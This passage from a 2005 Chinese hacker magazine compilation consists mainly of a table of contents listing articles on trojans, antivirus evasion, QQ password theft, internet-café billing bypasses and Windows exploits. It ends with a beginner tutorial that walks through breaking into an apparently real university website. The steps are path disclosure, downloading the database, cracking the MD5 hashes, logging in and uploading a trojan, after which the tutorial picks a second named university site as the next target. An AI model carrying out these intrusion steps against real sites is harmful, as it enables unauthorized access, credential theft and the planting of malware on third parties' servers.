# 黑客X档案合订本2005年（下）第一部分

---

## 《黑客X档案》畅销系列丛书——菜鸟 Hacker 进化最佳教程

## 黑客X档案 2005 合订本 #3

## ▽ 经典漏洞回顾

- Windows COM 结构存储本地溢出漏洞（MS05-012）试用手记
- 体验 Windows Message Queueing 消息队列远程溢出（MS05-017）
- IE 漏洞，Windows 挥之不去的痛！
- IE javaprxy.dll COM 对象漏洞之利用
- 玩转 Windows Plug and Play 远程溢出（MS05-039）
- Windows 挥之不去的痛！——浅析 IE COM 对象实例化溢出漏洞（MS05-038）
- 轻松搞定 msdds.dll 远程代码执行漏洞
- 菜鸟来玩 Windows 本地溢出——Windows CSRSS&键盘事件权限提升漏洞
- Dameware 在前，肉鸡在后
- 菜鸟来玩最新 Dameware 远程溢出漏洞

## ▽ 精彩内容一览

- X 菜鸟学堂
- 网站入侵常用模式之综合篇
- 网站入侵常用模式之扫描篇
- 扫描泛滥的远程溢出
- 在 Shell 的天空里翱翔
- 永恒的神话——特洛伊木马
- 菜鸟的入侵实习
- 教你使用啊D注入 2.3X 档案专版
- 菜鸟进攻反侦破
- QQ 侦探
- 出手不凡的 ADSL 密码终结者 2005
- 菜鸟的免费上网大餐
- 网上黑手的轻松入侵
- 菜鸟的无敌入侵宝典——百世经典入侵工具
- 菜鸟也玩病毒
- 菜鸟黑客必备工具箱 V1.1
- 国产木马新贵——“流萤”使用详解
- 《黑客X档案》友情版“任我行”
- 浪漫的冬日之恋——黑客X档案特别版
- 你的手机拨通全球攻略
- 无声键盘的蜜蜂大盗
- 内网互控全攻略
- TIT 女子破解小组 Crack 入门经典
- 密码快速分解破解实录
- 简单算法分析篇
- 逆向工程菜鸟教学篇
- 伪装与反伪装
- 菜鸟绝色：挂 QQ 养钻秘籍
- 黑客当心：分析滥用 ADSL 充值带来的问题

## ▽ 主题乐园

- 菜鸟 Unix 黑客技术步步高
- 告别菜鸟——VC 编程初级教程
- 备份的神话——Trojan
- 告别菜鸟——DLL 木马编写步步高


## 光盘精彩内容


- 梦断惊魂 Win2003 的 3389 终端登录
- 视频连线狂战术
- Ollypack 自动脱壳机
- 最新音乐免杀工具
- 密码监听器 V2.4
- 网管大师——数据包捕获器
- 超级兔子魔法设置 v7.46
- 幻影火网 MySQL 注入利用工具
- 无痕工具之端口探测器
- MSN 口令发现者
- 飞鸽聊天保镖
- 妈妈新语爆破冲击
- X档案通用版的“流萤”
- 旁注入侵专用程序

## 黑客X档案

hackerxfiles

## 黑客 X 档案合集本

## 2005 年【下卷】

做一本黑客们姗姗看完的杂志  
不让生活每天郁闷得喘口气  
平民化 自由度 随意性突破极限

拥有国内人气指数最高的黑客类媒体——www.hackerxfiles.net


# 《黑客X档案》2005年合订本（下卷）

- 出版：吉林科学技术出版社
- 出品人：孙胜利
- 主编：杨东柱
- 编辑部主任：龚连成
- 编辑部：楚汉 sleky 虫虫 呆呆虫
- 光盘部：龚连成 丛林
- 美编：Bifrost
- E-mail：hackerxfiles@263.net
- 邮购查询电话：010-88560080
- 联系电话：010-88561165
- 邮编：100037
- 定价：28元（光盘+手册）

## CONTENT

## 小鸡快跑

- 2005.7 X菜鸟学堂——网站入侵常用模式之综合篇 ...... 12
- 2005.8 X菜鸟学堂——网站入侵常用模式之扫描篇 ...... 17
- 2005.9 X菜鸟学堂——扫描之后的远程溢出 ...... 22
- 2005.7 QQ性别变！变！变！ ...... 26
- 2005.10 X菜鸟学堂——在Shell的天空里遨游 ...... 27
- 2005.11 永恒的神话——特洛伊木马 ...... 33
- 2005.12 X菜鸟学堂——菜鸟的入侵实习 ...... 37
- 2005.11 文件分割合并小技巧两则 ...... 40

## QQ宝典

- 2005.7 QQ，你会挂了吗？ ...... 42
- 2005.7 QQ普通用户也拥有4个免费固定群 ...... 43
- 2005.7 XP SP2实现多线程访问 ...... 43
- 2005.7 我也有自己的QQ密码破解器 ...... 44
- 2005.7 网页窃取QQ又一法 ...... 44
- 2005.8 QQ登录密码任我改 ...... 45
- 2005.8 人人都成为QQ会员 ...... 46
- 2005.9 利用中天QQ建群精灵申请免费QQ群 ...... 47
- 2005.9 QQ黑客行 ...... 48
- 2005.9 做QQ DIY狂人 ...... 50
- 2005.10 QQ暴力破解又一招 ...... 53
- 2005.10 QQ头像也疯狂 ...... 54
- 2005.10 QQ任我盗！ ...... 55
- 2005.10 由在网吧盗QQ号说起——记一次网站入侵大丰收 ...... 59
- 2005.12 菜鸟的QQ遭遇 ...... 60
- 2005.12 MSN口令发现者 ...... 60
- 2005.12 QQ“反潜”战 ...... 61
- 2005.12 教你来玩QQ秀 ...... 61
- 2005.12 破解网管新利器净网先锋 ...... 65

## 网吧黑客

- 2005.7 与PUBWIN再次交手 ...... 63
- 2005.7 完全手工破解光大网管 ...... 64
- 2005.7 破解美萍新招 ...... 64
- 2005.7 破解网管新利器净网先锋 ...... 65
- 2005.8 万象2004免费全攻略 ...... 66
- 2005.8 偷天换日，瞒天过海 ...... 68
- 2005.8 横行局域网 ...... 69
- 2005.8 我就是要下载！——记一次完全突破下载权限历程 ...... 71
- 2005.9 网吧免费上的七种武器 ...... 71
- 2005.9 记学院机房收费系统 ...... 73
- 2005.9 剑走偏锋——再BT的系统也搞定 ...... 74
- 2005.9 网吧破解又有新招——巧用QQ网络硬盘5分钟破解网吧 ...... 75
- 2005.10 机房管理系统软件只不过是纸老虎 ...... 76
- 2005.10 用好管理员密码之我见 ...... 77
- 2005.10 网吧管理系统Pubwin4漏洞防范初探 ...... 79
- 2005.11 博战局域网 ...... 81
- 2005.11 横行网吧，想玩就玩 ...... 83
- 2005.11 用Look 'n' Stop打造史上最完美的免费上网大法 ...... 84
- 2005.12 菜鸟的免费上网大法 ...... 85
- 2005.12 魔法表情也“牧”马 ...... 88
- 2005.12 实战网吧之获取下载权限 ...... 88
- 2005.12 反击网管 ...... 89

### 侵入黑客

- 2005.7 教你使用啊D注入2.3X档案专版 ...... 91
- 2005.7 突破校园网——为了挂QQ玩网游 ...... 93
- 2005.7 破灭Radmin密码不败的神话 ...... 94
- 2005.7 隐藏管理员超级工具——hideadmin ...... 96
- 2005.7 缓冲区溢出编程小助手——ASM2Shellcode ...... 97
- 2005.7 Shell下的另类上传 ...... 98
- 2005.7 菜鸟的入侵助手 …… 98
- 2005.7 利用系统的“管理”入侵局域网 …… 101
- 2005.7 深入3389 …… 102
- 2005.7 利用NC打造成自己的简单后门 …… 103
- 2005.7 菜鸟来玩Chinaren …… 104
- 2005.7 盗亦有道 …… 105
- 2005.8 注入新利器——WEB综合检测工具 …… 106
- 2005.8 菜鸟也玩反馈 …… 107
- 2005.8 与防火墙+杀毒软件打场时间差游击战 …… 108
- 2005.8 Webshell提权总结 …… 109
- 2005.8 端口映射配合Radmin控制内网肉鸡 …… 110
- 2005.8 轻松更改文件关联 …… 111
- 2005.8 系统服务1058错误的遐想 …… 111
- 2005.8 自动运行程序新方法 …… 112
- 2005.8 Radmin终结者 …… 113
- 2005.8 用肉鸡建立自己的FTP服务器 …… 117
- 2005.9 出手不凡的ADSL密码终结者2005 …… 118
- 2005.9 秘密潜入之WMI入侵 …… 120
- 2005.9 超酷的超级网络邻居 …… 122
- 2005.9 超级组合打造超级远程控制 …… 123
- 2005.9 文件夹的加密与破解 …… 124
- 2005.9 利用WMA文件使自己肉鸡成群 …… 125
- 2005.9 浅谈Win2003中账号的克隆和隐藏 …… 126
- 2005.9 自己动手制作免杀工具 …… 128
- 2005.9 用telnet愚弄入侵者 …… 129
- 2005.9 Connectix VirtualPC还原随我来 …… 130
- 2005.10 黑客世界里的狂注幽灵 …… 131
- 2005.10 顺藤摸瓜——反击网络钓鱼 …… 132
- 2005.10 菜鸟来玩Windows本地溢出 …… 133
- 2005.10 轻松搞定msdds.dll远程代码执行漏洞 …… 135
- 2005.10 Windows Resource Kit寻宝 …… 135
- 2005.10 网站猎手的轻松入侵 …… 136
- 2005.10 拿来主义——非黑客软件之“黑客化” …… 139
- 2005.10 小试“闪盘窃密者” …… 141
- 2005.10 让主机监控系统形同虚设 …… 142
- 2005.10 “终结”精品工具大家玩 …… 143
- 2005.10 愚弄小黑之论坛篇 …… 144
- 2005.11 MT——国产入侵的军刀 …… 145
- 2005.11 菜鸟的无敌入侵宝典——百世经纶入侵工具集 …… 146
- 2005.11 lanker微型PHP+ASP管理器1.0试用手记 …… 148
- 2005.11 小心压缩包中的猫腻 …… 149
- 2005.11 另类安全：3389“肉鸡”保卫战 …… 151
- 2005.11 CMD的终极防守 …… 153
- 2005.11 手工彻底清除“任我行” …… 155
- 2005.11 菜鸟也来玩病毒 …… 156
- 2005.11 菜鸟来破解软盘的EFS加密 …… 157
- 2005.11 “控制面板”争夺战 …… 158
- 2005.11 扫描搜索样样精通——LAN Explorer …… 160
- 2005.11 net user也疯狂 …… 161

### 校马记

- 2005.7 国产木马新秀——“流莺”使用详解 …… 163
- 2005.7 结合网页木马简单实现网络钓鱼 …… 166
- 2005.8 国产木马新秀——“黑客X档案友情版”任我行 …… 168
- 2005.8 连接天地的彩虹桥——木马Bifrost分析 …… 170
- 2005.8 利用WEBSHELL进行挂马 …… 172
- 2005.9 巧妙利用RobinPE将木马隐藏到exe文件中 …… 173
- 2005.9 内网互控全攻略 …… 175
- 2005.10 浪漫的冬日之恋——黑客X档案特别版 …… 180
- 2005.10 byshell v0.67 beta2测试手记 …… 183
- 2005.9 手工轻松打造终极木马 …… 184
- 2005.9 制作隐藏性更好的网页木马 …… 186
- 2005.11 反弹木马新秀Spook …… 186
- 2005.11 灰鸽子巧妙利用全攻略 …… 188
- 2005.11 喜欢Darkmoon没有理由 …… 192
- 2005.12 打造X档案专用版的“流萤” …… 193
- 2005.12 五毒俱全的蜜蜂大盗 …… 196

### 神鸟园

- 2005.7 TIT女子破解小组Crack入门零基础——菜鸟必读之爆破实录 …… 200
- 2005.7 浅析解除程序的多开限制 …… 203
- 2005.7 教你学破解 …… 204
- 2005.8 菜鸟学破解 …… 206
- 2005.8 TIT女子破解小组Crack入门零基础——简单算法分析篇 …… 207
- 2005.9 TIT女子破解小组之逆向工程菜鸟教学篇 …… 211
- 2005.9 如何防范暴破 …… 214
- 2005.9 软件破解与反破解 …… 215
- 2005.10 Cracker组合招式之轻取密码破解器 …… 218
- 2005.10 Java程序破解之旅——WebCharts3D破解手记 …… 221
- 2005.11 TIT女子破解小组菜鸟教学篇——伪装与反伪装 …… 224
- 2005.11 菜鸟破解实战之我的游戏我作主 …… 228
- 2005.12 小说软件破解与反破解 …… 231
- 2005.12 注册码也打劫 …… 233

## 黑客人物面对面

- 2005.7 年轻的黑客前辈——winky采访记 …… 236
- 2005.8 职业“黑”客——Pinkeyes …… 238
- 2005.12 黑客谈黑——小鱼巫师、myhk访谈 …… 240

## 侠隐仙踪

- 2005.7 黑客X梦 …… 243
- 2005.7 破解的代价——回忆 …… 244
- 2005.8 我可找到你了 …… 245
- 2005.10 以X档案开始 …… 247
- 2005.11 菜鸟王小鸟 …… 248

## 一个人的战争

- 2005.7 Windows COM结构存储本地溢出漏洞（MS05-012）试用手记 …… 250
- 2005.7 一次利用纯脚本技术入侵的漂亮展示 …… 252
- 2005.7 从HTML注入到系统权限入侵 …… 253
- 2005.7 巧用CSS文件来入侵 …… 254
- 2005.7 漏洞慢舞的飞鸽 …… 256
- 2005.7 菜鸟的入侵——从Webshell到Cmdshell …… 258
- 2005.7 真的没有漏洞了吗——再探九酷网络个人主页空间管理系统 …… 261
- 2005.7 详解通过Mysql弱口令得到系统权限 …… 263
- 2005.8 体验Windows Message Queuing消息队列远程溢出（MS05-017） …… 265
- 2005.8 IE漏洞，Windows挥之不去的痛！——IE javaprxy.dll COM对象漏洞之利用 …… 266
- 2005.8 PHP注入+MYSQL=SYSTEM权限 …… 267
- 2005.8 动网漏洞重现江湖 …… 269
- 2005.8 不花钱的密码——6KBBS的银行插件漏洞 …… 271
- 2005.8 Blog的噩梦 …… 273
- 2005.8 免费看电影，你也行！ …… 275
- 2005.8 Serv-U6.002下的艰难提权！ …… 276
- 2005.8 php程序与php常见漏洞 …… 279
- 2005.8 轻易突破2003服务器 …… 280
- 2005.9 玩转Windows Plug and Play远程溢出（MS05-039） …… 282
- 2005.9 Windows挥之不去的痛！——浅析IE COM对象实例化溢出漏洞（MS05-038） …… 284
- 2005.9 Union注入轻松搞定 …… 287
- 2005.9 PhpWind2.0.2 & 3.31CE漏洞抢鲜体验 …… 288
- 2005.9 入侵微软韩国官方网站服务器 …… 290
- 2005.9 让QQ网站成为你的黑手——由QQ网站漏洞来看跨站应用 …… 292
- 2005.9 突破移动网关GPRS上网限制 …… 294
- 2005.9 一次穿越时空的入侵 …… 296
- 2005.10 别小看了注入 …… 298
- 2005.10 脚本漏洞的边缘地带——计数统计系统的漏洞 …… 300
- 2005.10 菜鸟入侵大曝光 …… 304
- 2005.10 菜鸟钓鱼，挂QQ者上钩！ …… 307
- 2005.10 再次入侵20NT网络安全小组 …… 309
- 2005.10 跨站盗cookies老了？ …… 310
- 2005.10 过滤不严的整站系统 …… 311
- 2005.11 黑客防线的陷落 …… 314
- 2005.11 PhpwindBlog漏洞抢鲜体验 …… 317
- 2005.11 Dameware在前，肉鸡在后。 …… 318
- 2005.11 菜鸟无处不在 入侵防不胜防 …… 319
- 2005.11 动易4.3网站管理系统的跨站漏洞 …… 321
- 2005.11 Ofstar论坛之三个“洞” …… 322
- 2005.11 为了模板而入侵——ewebeditor漏洞利用 …… 324
- 2005.12 菜菜的月光影院与钻石会员 …… 325
- 2005.11 菜鸟入侵，别忘了 leadbbs 漏洞 …… 326
- 2005.12 菜鸟也来入侵传奇私服网站 …… 327
- 2005.12 中国资产价格信息网的三处漏洞 …… 329
- 2005.12 国外版blog一样倒塌 …… 330
- 2005.12 移动，网通任俺闯 …… 331
- 2005.12 入侵国内某知名出版社全记录 …… 334
- 2005.12 利用SQL注入快速入侵主机 …… 337
- 2005.12 菜鸟的跨站漏洞大法 …… 339

### 黑客研究院

- 2005.7 揭秘手机短信炸弹 …… 343
- 2005.7 TCPDump的跟踪日志及应用 …… 344
- 2005.8 微软系统信息报告工具——Winrep缓冲溢出漏洞 …… 346
- 2005.8 超越PHP的安全模式 …… 347
- 2005.9 深入浅出MD5 …… 349
- 2005.9 Shellcode技术杂谈 …… 352
- 2005.10 缓冲区溢出之整数溢出初探 …… 353
- 2005.10 MSN登录的秘密，我知道！ …… 355
- 2005.11 网络加密面面观 …… 357
- 2005.11 Linux打造专业级中小型路由器 …… 360
- 2005.12 逆向工程另类应用——免费上机 …… 362
- 2005.12 利用FreeBSD内核安全级别来保护系统安全 …… 364

### 安全第一

- 2005.7 妙用“本地安全策略”让系统更安全 …… 366
- 2005.7 服务器远程管理安全新策略 …… 368
- 2005.8 安全的Linux服务器组架设全攻略 …… 369
- 2005.8 踏雪无痕——让你的入侵不留痕迹 …… 371
- 2005.9 Web环境下SQL注入攻击的检测与防御 …… 372
- 2005.9 底层安全——路由篇 …… 374
- 2005.11 黑客当心！分析滥用ADSL充值带来的问题 …… 375
- 2005.11 打造坚不可摧的虚拟主机 …… 376
- 2005.12 安全要这样玩 …… 379
- 2005.12 个人系统安全设置大法 …… 380

### 黑客编程

- 2005.7 再谈编写缓冲区溢出程序 …… 382
- 2005.7 在学校机房掀起一场盗QQ的风暴 …… 383
- 2005.7 网吧开注册表Follow Me …… 384
- 2005.8 采用远程线程查看星号密码 …… 385
- 2005.8 PE文件另类加密技巧 …… 389
- 2005.9 打造带邮件发送功能的QQ密码记录软件 …… 390
- 2005.9 EXE捆绑文件能奈我何 …… 391
- 2005.10 打造自己的捆绑工具 …… 393
- 2005.10 手把手教你制作Discuz4.0.0跨站漏洞利用程序 …… 395
- 2005.11 用QQ间谍实践木马服务端的生成问题 …… 397
- 2005.11 轻松制作Talisman破解安装包 …… 399
- 2005.12 用Delphi、VB、ASP+Html+JS和PHP编写QQ强制聊天器 …… 400

## CONTENT

| 期号 | 标题 | 页码 | 期号 | 标题 | 页码 |
|---|---|---|---|---|---|

- 2005.12 编程菜鸟与后门DIY ...... 401

### 毒变

- 2005.7 分析和查杀QmsgMyRun病毒 ...... 404
- 2005.8 新CIH，中国制造 ...... 405
- 2005.8 让KV2005瘦下来 ...... 406
- 2005.9 浅析EPO技术 ...... 407
- 2005.9 病毒危机下的杀毒软件 ...... 408
- 2005.10 “毒”善其身——榨尽毒中所有精华 ...... 409
- 2005.11 杀毒日记 ...... 411
- 2005.12 潜伏的力量 ...... 412

### 补丁铺

- 2005.7 对巧妙提升冰狐浪子ASP木马权限的一点疑问 ...... 417
- 2005.7 杀鸡焉用牛刀 ...... 417
- 2005.7 无痕大法 ...... 419
- 2005.8 对《踏网无痕——上网之前下网之后》一文的补充 ...... 420
- 2005.8 对《菜鸟学技术，工具组合很重要》的补充 ...... 422
- 2005.9 对“NTFS磁盘系统配置全攻略”的一点补充 ...... 422
- 2005.10 对“逆向工程菜鸟教学篇”的一些补充 ...... 423
- 2005.10 RobinPE检测补丁 ...... 423
- 2005.11 对07期深入3389一文的疑问及补充 ...... 425
- 2005.11 也谈被遗忘的利刃 ...... 426
- 2005.12 对“软件破解与反破解”的一点补充 ...... 427
- 2005.12 对“去除NTLM新招”的疑问和补充 ...... 428

### 专题乐园

- 2005.7 Unix菜鸟黑客技术步步高 ...... 430
- 2005.8 告别菜鸟——VC编程初级教程 ...... 439
- 2005.9 复兴的神话——Trojan ...... 451
- 2005.9 Linux也玩远程操控 ...... 460
- 2005.10 告别菜鸟DLL木马编写步步高 ...... 462
- 2005.12 破解万能钥匙——Passware Kit Enterprise Edition ...... 474
- 2005.12 活学活用：玩转旁注攻击 ...... 477

### 最新工具

### 梦断雄鹰 Server2003 的 3389 终端登录

3389登录器的最新版本，支持Server2003的3389终端登录，以及以前的所有WIN版本，功能强大，请勿乱用！

### 幻影旅团 mysql 注入利用工具

通过Mysql注入读取服务器上的程序，分为快速和慢速读取两种方式，用户可以自行选择。慢速读取可以修改并发线程数量来提高读取速度。

#### CNNSC 远程控制 V1.2

实现了文件监控传输、屏幕监控、摄像头监控、注册表监控、服务监控、进程监控、连接监控、声音监控、共享探测、端口映射、网络嗅探等。

### 热血江湖马

又一款热血江湖的小马。

#### PC Watcher

这是一个PC上的防盗报警软件，能用摄像头捕获所有监控区域内运动的人或物的照片，报警并发送到你的email（最好能绑定手机）中。不需要高昂的费用，使每一台PC成为专业实用的监视系统。

#### 最新伯乐免杀工具

可以帮助你的木马逃脱杀毒软件的查杀，操作十分简单，相信很容易上手的。

#### 远程网络维护 7.0

在对方电脑中运行waxing.exe程序，己方电脑中运行cNxceit.exe程序。

#### HTML Password Lock v3.2

一个对网页文件加密的软件，不同于一般的网页加密软件，它是通过验证用户输入的密码来决定是否能打开网页，可以给单个网页或整个网站加密，加密的种类可以是只对单个授权用户开放或对特定的多个授权用户开放。

#### 视频监控任我行

任我行工作室周剑的作品，主要用来控制远程视频和录制远程语音，傻瓜式的操作一看便知，有不轨企图的朋友们有得玩了。

### 上兴2006

南域剑盟的上兴远程控制。

### 远程控制 Spook6.0

上传、下载、删除、改名、运行等多项文件操作功能，另外在上传、下载远程文件时可以断点传输。

#### 文件夹加密超级大师 V6.6

功能强大、安全高效、简单易用的数据加密和保护软件。有超快和最强的文件夹加密功能，还有文件加密、文件夹、文件的粉碎删除以及文件夹伪装等功能。

#### Access 密码获取器 2006

可以自动判断ACCESS97/2000/2003并分析出数据库密码，更易于使用，同时修改了界面，修正了3.0版本不支持2000和2003的BUG。

#### QUnpack 自动脱壳机

选取一个程序，输入16进制的OEP值（或者点击“扫描”自动获取），单击“快给我脱”就OK了。

## 光盘索引

### VB反编译精灵 V2.4

一款VB程序反编译工具，能够反编译VB5/VB6的部分程序代码。

#### 木马探测器 V3.0

卡巴斯基反病毒软件。

#### 动态域名客户端

免安装，去除了直达网址这个烦人的限制。

### PHP在线端口扫描系统

用过X-Scan的人都知道，它很占资源，这个相当于它的简化+Web版吧。

#### 无痕工具之端口探测器

端口探测器。

#### Kaspersky Anti-Virus v5.0.72

中文简称为卡巴斯基反病毒服务器版，是专门保护Windows 2000/XP/NT操作系统下的服务器安全性，使其免受病毒的攻击。

#### WinAntiSpyware 2006

一款检测和清除间谍软件、广告软件、浏览器劫持等恶意软件的安全工具，支持定期扫描和定时自动开始扫描，支持自动更新数据库，全方位呵护个人隐私安全。

#### WinFirewall 2006

提供实时安全保护，阻止黑客入侵窃取数据，网上自动阻止威胁，具有程序锁、事件日志、可定制安全级别、计算机设置管理、网络设置管理、安全邮件等功能。

#### BPS WinTrace Remover v6.1

软件信息：BPS WinTrace Remover v6.1.0.0零售版，03月15日发布，能清除缓存、cookie，清除浏览临时文件和历史记录以及其它Internet记录，支持AOL、IE、MSN Explorer、Opera和Netscape等浏览器。新版还有阻挡弹出窗口功能。

### 腾讯QQ2006珊瑚虫版 v4.2.2b Final 正式版

腾讯QQ不仅仅是Internet网络的虚拟寻呼机，将和其他短讯通信网络互联，如无线寻呼网、GSM无线移动电话短消息、传真甚至电话网。

#### 超级兔子魔法设置 v7.46

常用的Windows设置软件，清晰的分类让你迅速找到相关功能，提供几乎所有Windows的隐藏参数调整。优化系统、清除垃圾、解决你碰到的各种问题。

### MP3播放器音频转换

act转mp3，不错的音频转换工具。

#### 拼音加加增强版 v4.012

新的版本大家会觉得似曾相识，基本上保留了2.2版的所有功能，并且在这个基础上还增加了一些新的功能。

#### 桌面天气秀 XDeskWeather

桌面天气秀是全球最受欢迎、下载量最大的全中文桌面天气预报软件。她能准确预报全球近10000多个地区的六天天气预报。

### 3389自动也玩上线动画教程

3389自动也玩上线——新思路正向连接也玩自动上线。


## 光盘索引

#### 文件工具

- 绿鹰PC万能精灵
- 精锐网吧辅助工具
- 净网破解版网吧版
- 光大网管收费端
- 入侵助手
- 网络红娘
- sp2网页木马
- 辅臣数据库浏览器
- radmin
- 网吧PUBWIN充值一条龙
- 超强灰鸽子检测器
- MS05039扫描器
- 通用批量溢出程序
- 随意门
- MSN口令发现者
- QQ Tool
- 免杀网马生成器阿福修改版
- Permeo Security Driver
- 非君子迷你器
- 挂马宣传精灵
- Ability FTP Server
- DameWare NT Utilities
- X档案专用版的“流萤”
- 蜜蜂大盗
- C32Asm
- keymake
- OllyDbg.V1.10聆风听雨汉化第三版+XP界面
- PEID
- winhex
- 流光
- sqlhello-SQL溢出程序
- HDSI
- 海阳2006木马
- delshare.bat
- delshare.reg
- iprule.dat
- Windows无用服务的列表
- 金山的震荡波专杀工具
- SpeedCommander10
- Passware Kit Enterprise Edition v7.1.1411汉化版
- 旁注入侵专用程序

## 小鸡快跑


### X档学堂

### 网站入侵
### 常用模式之综合篇

悟空出闯关 [F.W.S.T]

话说悟空将网站入侵的两招传授给众人后，众人受益匪浅。可是悟空临走的时候，却总觉得不够。悟空拍了拍八戒的肩膀：“呆子，前两堂课是分解动作，把它们结合在一起才能组合成威力巨大的招式！”

八戒把眼睛眨巴了两下，托起腮帮子：“猴哥，那组合招式是什么样的？”

悟空解释道：“好的，我们来看看入侵网站的一般思路。首先，我们看看对方的系统是否自己熟悉。尤其是下载系统（比如落帅或雨点下载系统）、新闻系统（比如动网文章系统和牛X雅箫等），和论坛（或社区）（比如动网论坛或BBSXP一类的）。如果是低版本的话，几乎都有各种各样的漏洞和利用工具。尤其是上传漏洞，甚至可以一击必杀。”

八戒打开了一个网站：“猴哥，这个网站你看看，好像没见过这种系统。”

悟空翻了半天：“嗯，这个是一个大学的网站。现在的大学里往往会用学生自己做的网站。看看页面底下方的版权声明：版权所有：XX大学团委 设计制作：阿飞。很明显是自己做的一个系统。其实自己做的系统大多有漏洞。不过由于系统是人家自己写的，就算有上传漏洞，你也不一定知道人家的上传页面在什么地方。所以，我们要从最基本的漏洞一点一点开始找。首先，我们找一些带有参数的页面。比如：”

```
http://www2.xxx.cn/youth/list.asp?boardid=31
http://www2.xxx.cn/youth/%5clist.asp?boardid=31
```



图1

看到数据库了吧。嘿嘿，去下载看看。提交：

```
http://www2.zzit.cn/youth/admin/%23tuanwei.asp
（把“#”号改为“%23”了）
```



图2

呵呵，这就说明数据库没有做防下载处理。用FlashGet下载下来，再改名为tuanwei.mdb就可以用ACCESS打开了，如图3。



图3

密码是加密过的，没关系，拿出MD5CRACK 3.1来跑一跑。一共44个用户跑出了10个密码。找个权限大点的“xueshenghui”，这个级别是3，还算可以，登录看看（在这个时候看到上面写着“版权所有：世纪易网”才知道原来是改编自此系统的，并非完全自创），成功登录！并且有上传图片的地方。而且抓包后还发现存在上传漏洞！只不过做了session验证，具体操作就不说了，传个木马上去，闪人！

八戒看得瞠目结舌：“怎么有这么快的入侵？不行，不行，换另一个网站，找个没有漏洞的！”

说罢翻出了高小妮所在的中国XX大学的网站：http://www.cpu.edu.cn/shangyuan，悟空简单跑了一下，还没开口，沙僧就拿出NBSI2，打开网站扫描，选择快速扫描，如图4。

